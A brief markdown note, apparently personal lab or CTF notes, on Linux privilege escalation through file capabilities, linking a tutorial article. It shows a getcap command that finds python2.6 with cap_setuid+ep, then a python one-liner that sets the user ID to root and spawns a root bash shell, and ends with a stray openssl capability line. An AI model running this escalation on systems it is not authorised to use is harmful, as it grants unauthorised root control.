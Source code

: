 [Linux Priv. Esc. Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)** <- Check.**
### Victim VM
```bash
$ getcap -r / 2>/dev/null
	/usr/bin/python2.6 = cap_setuid+ep
```
### Exploitation
```bash
$ /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```


openssl = cap_setuid+ep